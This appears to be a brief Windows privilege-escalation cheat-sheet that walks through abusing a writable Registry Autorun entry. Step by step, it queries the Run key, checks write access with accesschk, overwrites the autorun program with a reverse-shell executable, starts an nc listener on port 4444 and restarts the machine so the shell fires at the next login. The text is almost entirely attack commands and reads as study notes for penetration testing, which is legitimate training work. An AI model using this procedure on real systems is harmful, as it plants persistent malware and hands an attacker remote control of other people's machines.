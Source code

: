 # Registry - Autoruns

Run the following command

`reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

If the output shows a path, check if the path is writable.

`accesschk.exe /accepteula -wvu "<path to exe"`

Example

`accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"`

Copy the reverse.exe executable you created and overwrite the AutoRun executable with it

`copy reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y`

Start a listener

`nc -lvp 4444`

Restart the machine

`shutdown /s`

When a user attempts to login, the reverse shell will be triggered.